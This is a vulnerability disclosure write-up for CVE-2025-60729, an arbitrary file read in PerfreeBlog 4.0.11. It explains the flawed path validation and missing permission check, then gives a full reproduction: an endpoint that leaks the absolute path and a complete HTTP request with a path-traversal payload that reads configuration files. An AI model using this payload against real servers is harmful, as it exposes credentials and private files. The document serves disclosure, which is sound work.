 # Arbitrary File Read Vulnerability in PerfreeBlog System(CVE-2025-60729)

## Official Website
https://perfree.org.cn/

## Download Link
https://gitee.com/PerfreeBlog/PerfreeBlog


## Vulnerability Description
The PerfreeBlog system has an arbitrary file read vulnerability, which allows reading any files on the server.


## Vulnerable Version
Latest version 4.0.11


## Vulnerability Principle
The relevant code details are as follows:
In the interface called to obtain the content of theme files
![](./img/3.png)

It is found that it uses the `validThemeFilePath` function to verify the legitimacy of the path
![](./img/1.png)

When entering the `validThemeFilePath` function, it is found that the verification conditions are:
1. The path must exist and not be empty.
2. The incoming `path` must contain the `themePath`.

Therefore, path traversal can be achieved using `../`.
![](./img/2.png)

Moreover, this vulnerable interface has an unauthorized access issue. It is found that it does not use `hasPermission` for permission verification, so registered users can be used to read any files on the server.
![](./img/8.png)


## Vulnerability Reproduction
It can be equivalent to an unauthorized file read vulnerability.

First, use the `Authorization` of a newly registered ordinary user for operation, which is equivalent to an unauthorized operation.
![](./img/9.png)


Obtaining the absolute path:
Access the following interface to obtain the absolute path. The principle is that the downloaded file does not exist.
http://127.0.0.1:8086/api/attach/file/1/get/22222
![](./img/10.png)

Modify `path` and `themePath` to achieve arbitrary file reading.

The interface is:
```
http://127.0.0.1:8086/api/auth/theme/getThemeFileContent
```

The `path` only needs to contain `themePath`.

Data packet:
```
POST /api/auth/theme/getThemeFileContent HTTP/1.1
Host: 127.0.0.1:8086
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0MTIzIiwiaXNzIjoic2VjdXJpdHkiLCJpYXQiOjE3NTU1MTQ0MzksImF1ZCI6InNlY3VyaXR5LWFsbCIsImV4cCI6MTc1NTUyMTYzOX0.KYmf_1EgVHrVoEy_N8tWPXH9SyNtEVHHvcjCLP3Oocg
Content-Length: 202
Origin: http://127.0.0.1:8086
Connection: keep-alive
Referer: http://127.0.0.1:8086/admin/theme/edit/default
Cookie: cms.locale=zh; PUBLICCMS_ANALYTICS_ID=b949b56a-32b4-4c16-9017-6619c6601ec5; PUBLICCMS_ADMIN=1_2a8f2932-74c5-40b9-ac72-01ef30167826; JSESSIONID=9DEEB713CA3E50909F7E86A3377C4366
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

{"themePath":"default\\..\\..\\..\\..\\","path":"F:\\test\\java1\\PerfreeBlog-main\\resources\\static\\themes\\default\\..\\..\\..\\..\\perfree-server\\src\\main\\resources\\application-prod.yaml"}
```

`themePath` is set to:
```
default\\..\\..\\..\\..\\
```


Reading pom.xml:

The `path` is:
```
File path + resources\\static\\themes\\default\\..\\..\\..\\..\\pom.xml
```
![](./img/6.png)

Reading configuration files:

The `path` is:
```
File path + resources\\static\\themes\\default\\..\\..\\..\\..\\perfree-server\\src\\main\\resources\\application-prod.yaml
```
![](./img/7.png)

For Linux systems, files such as `/etc/passwd` can be read.


Location of the vulnerable interface in the menu - Theme Management
![](./img/11.png)
